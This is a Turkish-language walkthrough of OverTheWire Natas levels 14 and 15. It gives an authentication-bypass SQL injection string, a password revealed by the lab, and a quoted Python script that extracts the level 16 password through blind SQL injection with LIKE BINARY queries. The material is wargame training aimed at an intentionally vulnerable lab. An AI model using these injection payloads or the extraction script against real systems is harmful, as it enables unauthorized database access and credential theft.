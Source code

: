 ifadesi username, password alanlarına girilerek password elde edilmiştir. Bu kod yerine, **"or"1"="1" #** ifadesini sadece username alanına girerekte password elde edilebilir

```terminal
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

![password](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J")


Natas Level 14 → Level 15
======

+ natas15
+ URL:      http://natas15.natas.labs.overthewire.org

###### You should now

**Blind SQL Injection** 

Hint;
- CREATE TABLE `users` (
- `username` varchar(64) DEFAULT NULL,
- `password` varchar(64) DEFAULT NULL); 

https://www.w3schools.com/sql/sql_datatypes.asp adresinden _varchar(64)_ variable tipi için bilgi edinilebilir.

![Page SS](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/natas/natas15.jpg "ss"

Python ile yazılan(ALINTIDIR) aşağıdaki script password elde edilebilmektedir.

```terminal
import requests
from requests.auth import HTTPBasicAuth

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
filtered = ''
passwd = ''

for char in chars:
    Data = {'username' : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
    if 'exists' in r.text :
        filtered = filtered + char
        print (filtered)

for i in range(0,32):
    for char in filtered:
        Data = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char + '%" #'}
        r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
        if 'exists' in r.text :
            passwd = passwd + char
            print(passwd)
            break

```
